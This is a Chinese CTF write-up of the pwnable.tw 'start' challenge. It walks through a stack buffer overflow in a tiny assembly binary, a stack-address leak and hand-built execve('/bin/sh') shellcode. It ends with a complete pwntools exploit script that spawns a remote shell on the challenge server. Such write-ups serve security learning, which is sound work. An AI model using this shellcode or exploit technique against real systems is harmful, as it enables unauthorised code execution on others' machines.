










# pwnable.tw_start

题目类型：Pwn

自定义难度：★★☆☆☆

## 1 题目



二进制：[start](pwnable.tw_start.assets/start)

## 2 解题

### 2.1 分析

先 nc 一下看看：



输入了个字符串，ida 分析一下看看：



看起来比较简单，应该是一个直接用汇编编写的程序。

Google 一下 `int 80h` 这一条语句，其中汇编指令 `int` 功能为保存现场后引发对应中断码的中断，其中 `0x80` 对应号的中断为系统调用。在进入系统调用前，需要设置一些如参，其中 `eax` 为系统调用功能号，可以在 `/usr/include/asm/unistd_<platform>.h` 中查找。



查表可知，此程序分别调用了一次 `write` 和 `read` 系统调用，查一下这两个系统调用的功能和入参。

```c
ssize_t write(int fd, const void *buf, size_t count);  // 从 buf 读取 count 个字节写入文件描述符 fd
ssize_t read(int fd, void *buf, size_t count);         // 从文件描述符 fd 中读取 count 个字节到 buf
                                                       // 文件描述符 0: stdin 1: stdout 2: stderr
```

对应的汇编代码为：

```text 
write
4(系统调用码)  -> 寄存器 a
fd           -> 寄存器 b
buf          -> 寄存器 c
count        -> 寄存器 d

read
3(系统调用码)  -> 寄存器 a
fd           -> 寄存器 b
buf          -> 寄存器 c
count        -> 寄存器 d
```

程序逻辑为先压栈 20 个字节（字符串“Let's start the CTF:”），再从 `esp` 所指地址写 `0x14(20)` 个字符到 `stdout(1)`，再从 `stdin(0)` 读 `0x3C(60)` 个字节到 `esp` 所指的地址，这里存在栈溢出。



没啥保护，应该可以直接 ret2shellcode。

### 2.2 调试

开始就下断点：

```gdb
b _start
```

执行完第二个系统调用后看一下栈内容：



由于 `read` 函数的 `count` 入参限制了最大只能覆盖 60 个字节，返回地址下面只剩 `60 - 20 - 4 = 36` 字节，试试 pwntools 中自带的 shellcode

```python
shellcode = asm(shellcraft.sh())
print(shellcode)
print(len(shellcode))
```


😬 一共 44 个字节，调试后也发现不太行，分析以下 shellcode，看看能不能利用一下上面多的 20 字节。

**注意：如果 shellcode 用到了 `push` 指令，要先移动 `esp` 以免 shellcode 指令被 `push` 进去的数据覆盖了，别问我怎么知道的 😭。**

最终 shellocde：

``` python
asm_code_0 = '''
    /* move stack */
    mov esp, 0xffffdddd                     /* bcddddffff */
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68                               /* 6a68 */
    push 0x732f2f2f                         /* 682f2f2f73 */
    push 0x6e69622f                         /* 682f62696e */
'''

asm_code_1 = '''
    mov ebx, esp                            /* 89e3 */
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101                          /* 6801010101 */
    xor dword ptr [esp], 0x1016972          /* 81342472690101 */
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
'''

ret_addr = 0xffffd044
shellcode = asm(asm_code_0) + b'\xeb\x05\x00' + p32(ret_addr) + asm(asm_code_1)
```

调试时完全按照汇编指令走，但是最终报错，这个错误应该可以无视，已经成功 shell 了。



但是换 `process` 函数运行 exp 就没有效果，并且远程题目服务器也没有用，查资料得到应该是栈地址不是固定的，需要获取栈地址。代码段地址不会改变，可以利用静态的代码段在运行时获取动态的栈信息。

**小技巧：通过溢出改变返回地址到代码段，可以达到循环的效果，多次输入并溢出。**

再仔细看一下汇编代码（很多时候看 ida 反编译的汇编能找到一些细节）。



一开始把 `esp` 压栈内了。



运行到 `retn` 结束后，退回到了上一个栈帧，栈顶指向了一开始 `push esp` 近来的 `esp`，这个时候如果再运行上面框起来的这段代码，那么就可以打印出一开始压倒栈里的 `esp` 了，再根据这个 `esp` 精准覆盖返回地址。

**注意：`pwntools` 中的 `send` 和 `sendline` 要斟酌一下使用哪一个，否则会莫名奇妙某个内存被覆盖为 `0x0a` 😭。**

最后还是换了个短点的 shellcode 。

## 3 EXP

```
from pwn import *

sh = remote('chall.pwnable.tw', 10000)
# sh = process('./pwnable.tw_start.assets/start')
# sh = gdb.debug('./pwnable.tw_start.assets/start', '''
# b *08048060
# continue
# ''')

sh.recvuntil(b'Let\'s start the CTF:')
sh.send(b'A' * 20 + p32(0x8048087))

recv = sh.recv(4)
esp_addr = u32(recv)
print(recv.hex())

asm_code = '''
    push 6845231    /* 682f736800 */
    push 1852400175
    xor edx, edx
    xor ecx, ecx
    mov ebx, esp
    mov eax, 0xb
    int 0x80
'''

print(len(asm(asm_code)))
print(asm(asm_code).hex())
ret_addr = esp_addr - 0x4 + 0x14 + 0x4

shellcode = b'A' * 20 + p32(ret_addr) + asm(asm_code)
print(len(shellcode))
print(shellcode.hex())

sh.sendline(shellcode)
sh.interactive()
```



拿到 flag，虽然有参考别人的 Writeup 😢。

## 4 存疑

为什么这道题目的调用栈地址是动态的？这个要怎么判断？